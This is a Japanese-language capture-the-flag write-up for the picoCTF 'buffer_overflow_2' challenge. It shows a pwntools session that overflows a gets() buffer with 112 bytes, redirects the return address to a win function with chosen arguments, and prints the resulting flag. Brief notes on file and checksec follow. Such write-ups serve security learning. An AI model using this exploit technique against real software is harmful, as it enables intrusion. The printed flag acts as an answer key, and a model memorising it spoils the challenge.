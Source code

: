 # buffer_overflow_2:bynary Medium  
Control the return address and arguments  
Download the source [here](buffer_overflow_2.c)   
Additional details will be available after launching your challenge instance.  

# Solution  
バイナリ、ソースコードが渡される。  
from pwn import *  
>>> p = remote("saturn.picoctf.net",55989)  
[x] Opening connection to saturn.picoctf.net on port 55989  
[x] Opening connection to saturn.picoctf.net on port 55989: Trying 13.59.203.175  
[+] Opening connection to saturn.picoctf.net on port 55989: Done  
>>> payload = b"a"*112   
>>> payload += p32(0x08049296)  
>>> payload += p32(0x0)  
>>> payload += p32(0xCAFEF00D) + p32(0xF00DF00D)  
>>> p.sendline(payload)  
>>> p.interactive()  
[*] Switching to interactive mode  
Please enter your string:   
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa��  
picoCTF{argum3nt5_4_d4yZ_59cd5643}[*] Got EOF while reading in interactive  

# 基礎知識  
fileコマンド  
指定したファイルの「ファイルの種類（タイプ）」を判定する Linux/Unix のコマンド  
構文：file [オプション] ファイル名  
checksecコマンド  
Linuxバイナリに有効化されているセキュリティ機能を確認するツール  
構文：checksec --file=バイナリファイル名  

# 考えたこと  
問題名からバッファオーバーフローをすることが分かる。また、gets(buf);という脆弱性を発見した。
ここで、バッファオーバーフローしてリターンアドレスをWIN関数のアドレス値に書き換えることでフラグを獲得できると考えた。pwntoolsを使ってデータを送信し、対話形式で実行するとFLAGを獲得できた。